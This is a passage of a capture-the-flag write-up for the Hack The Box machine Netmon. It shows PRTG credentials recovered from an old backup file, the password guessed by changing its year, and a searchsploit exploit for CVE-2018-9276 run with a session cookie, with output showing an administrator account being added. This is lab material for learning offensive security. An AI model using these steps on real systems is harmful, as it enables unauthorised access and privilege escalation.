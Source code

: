 After downloading i checked one per one each file and finally at the **PRTG Configuration.old.bak** i found credentials.

```bash
</dbcredentials>
            <dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
```

So i tried them at the login page but they didn't work, i get pretty confused at this time, so after a while i realized that this password is from a old backup, and there is a year in the pass, so after changing the **2018** to a **2019** i logged in with the next credentials:

- **prtgadmin:PrTg@dmin2019**

![Desktop View](NetmonAdminPanel.png)

So now is time to use the exploit we found before, let's check the exploit and see what it does.

## Port 80 Exploitation

Firstly, let's get the exploit to our current directory and rename it.

```bash
❯ searchsploit -m windows/webapps/46527.sh
❯ mv 46527.sh exploit.sh
❯ cat exploit.sh
```

After checking the exploit, it does create a elevated user in the local machine abusing a RCE vulnerability.

The exploit ask us to provide the target IP and the session cookie of the PRTG admin panel.

```bash
❯ ./exploit.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=ezU1RUYyMTBDLUYzQTctNDgyNy04MEE2LTVFMUJDRDk2NUUyNn0%3D"

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....

```